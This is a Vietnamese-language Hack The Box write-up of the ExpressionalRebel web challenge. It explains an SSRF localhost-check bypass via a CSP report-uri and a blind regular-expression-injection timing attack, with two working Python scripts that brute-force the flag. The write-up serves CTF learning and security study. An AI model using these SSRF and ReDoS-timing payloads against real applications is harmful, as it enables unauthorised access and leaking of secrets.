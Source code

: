 ```yaml
---
layout: post
title: HTB ExpressionalRebel Writeup
date: 2022-12-01
categories: ["hackthebox"]
---
```


# Phân tích code

Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Ứng dụng này được viết bằng nodejs. Mình sẽ đọc thư mục routes trước để xem ứng dụng có những chức năng và đường dẫn nào.

Trong thư mục routes có 2 file api.js và index.js. Với file index.js có 2 hàm home page và deactivate page.

![Imgur](https://i.imgur.com/xOY0Jwx.png)

Chức năng homepage chỉ để hiển thị các thông tin. Còn chức năng deactivate thì có 1 input là ```secretCode```. Biến ```secretCode``` thì được vavalidate bởi hàm ```validateSecret```. Mình sẽ xem hàm ```validateSecret``` sẽ thực hiện điều gì.

```javascript
const validateSecret = async (secret) => {
    try {
        const match = await regExp.match(secret, env.FLAG)
        return !!match;
    } catch (error) {
        return false;
    }
}
```

Hàm này sẽ thực hiện kiểm tra regex nếu input `secret` có khớp với `env.FLAG` hay không.

Tuy nhiên, quay lại chức năng ```deactivate```, chức năng này có hàm ```isLocal```.

![Imgur](https://i.imgur.com/dy8dcNN.png)

Hàm isLocal kiểm tra xem ```remoteAddress``` có phải từ 127.0.0.1 và ```host``` là 127.0.0.1:1337 hay không. Vì vậy, điều đó có nghĩa là chức năng này chỉ có thể truy cập được từ máy chủ cục bộ.

Tiếp theo mình tiến hành phân tích tệp api.js.

![Imgur](https://i.imgur.com/b7kpkK2.png)

Chức năng evaluate sẽ thực hiện nhận các input ```csp``` sau đó sẽ được kiểm tra bởi hàm ```evaluateCsp```.

![Imgur](https://i.imgur.com/x6OlxTs.png)

Hàm ```evaluateCsp``` sẽ thực hiện phân tích cú pháp của CSP và nếu đầu vào có report-uri, nó sẽ được kiểm tra bởi hàm ```checkReportUri```.

Trong CSP thì report-uri sẽ được đi kèm với các url. Mọi người có thể tìm hiểu thêm trong link sau: 

- [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri)

```
Content-Security-Policy: report-uri <uri>;
Content-Security-Policy: report-uri <uri> <uri>;
```

Hàm checkReportUri như sau

![Imgur](https://i.imgur.com/F1XUa8S.png)

Hàm ```checkReportUri``` sẽ thực hiện kiểm tra xem có mấy URI và kiểm tra xem URI đã gửi có phải là 127.0.0.1 hay localhost từ hàm ```isLocalhost``` hay không.

![Imgur](https://i.imgur.com/2rN4Jb0.png)

Nếu tất cả các điều kiện được đáp ứng, hàm ```httpGet``` sẽ được thực thi tới URI đó.

![Imgur](https://i.imgur.com/CQ1D1d0.png)

Hàm ```httpGet``` sẽ thực hiện truy cập vào URI đó.

# Exploit

Trước tiên, mình sẽ gửi yêu cầu qua API để kiểm tra xem response nhận được là gì.

![Imgur](https://i.imgur.com/qdHYGHI.png)

Tiếp theo mình sẽ gửi thông tin report-uri với uri là 127.0.0.1.

![Imgur](https://i.imgur.com/2OT8roZ.png)

Mình nhận được các thông báo lỗi. Vì vậy, mình phải bypass chức năng kiểm tra ```isLocalhost``` của evaluate. Để ứng dụng có thể truy cập vào được 127.0.0.1.

Thế là mình nghĩ ngay cách bypass giống như lỗ hổng SSRF.

![Imgur](https://i.imgur.com/FoRJ3u7.png)

Cách trên có thể bypass hàm ```isLocalhost```` một cách dễ dàng. Đây là kết quả mình đã nhận được.

![Imgur](https://i.imgur.com/G89yQRb.png)

Vậy làm thế nào để có được flag. Quay lại hàm ```deactivate ```, trong hàm ```validateSecret``` có một regex kiểm tra xem secret có khớp với flag hay không. Và chức năng request chỉ có thể truy cập qua localhost.

Kết hợp với chức năng ```evaluate```, mình có thể truy cập chức năng hủy kích hoạt bằng cách bypass ở trên.

![Imgur](https://i.imgur.com/Ke2dyWM.png)

Tuy nhiên, mình không thấy bất cứ điều gì xảy ra.

Với dữ liệu secret regex với flag, mình đã tìm kiếm các thông tin trên google. Sau một thời gian, mình đã tìm ra đây là lỗ hổng Blind Regular Expression Injection và có 1 cách khai thác nhưu sau.

- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://diary.shift-js.info/blind-regular-expression-injection/](https://diary.shift-js.info/blind-regular-expression-injection/)

Theo thông tin mình đọc được thì khi input đoạn regex ```^(?=.{1})((.))*salt$``` nếu ra kết quả đúng thì request sẽ mất hơn 2s để thực hiện. Và nếu sai, yêu cầu sẽ thực hiện rất nhanh.

![Imgur](https://i.imgur.com/CKjF82e.png)

vậy mình sẽ code 1 đoạn khai thác tìm kiếm chiều dài của flag trước tiên.

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_flag():
    length_of_flag = 0
    for i in range(100):
        secret_code = urllib.parse.quote_plus(f'^(?=HTB{{.{{{i}}}}})((.*)*)*salt$')

        headers = {'Content-Type': 'application/json'}
        data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}
        response = requests.post(url, headers=headers, json=data)
        if response.elapsed.total_seconds() > 2:
            length_of_flag = i
            break
        
    print("length flag is: %s " % str(length_of_flag))
if __name__ == "__main__":
    brute_flag()
```

Kết quả mình nhận được chiều dài flag là 34:

![Imgur](https://i.imgur.com/yM2nNQw.png)

Sau đó mình thực hiện brute flag

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_force_flag():
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"

    flag = ""
    for i in range(34):
        for i in range(len(alphabet)):
            secret_code = urllib.parse.quote_plus(f'^(?=HTB{{{flag}{alphabet[i]}.*}})((.*)*)*salt$')

            headers = {'Content-Type': 'application/json'}
            data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}

            response = requests.post(url, headers=headers, json=data)
            if response.elapsed.total_seconds() > 2:
                flag = flag + alphabet[i]
                break

    print("flag is: HTB{%s}" % str(flag))
if __name__ == "__main__":
    brute_force_flag()
```

Sau khi chạy xong mình đã có được flag

![Imgur](https://i.imgur.com/9rZbEQo.png)

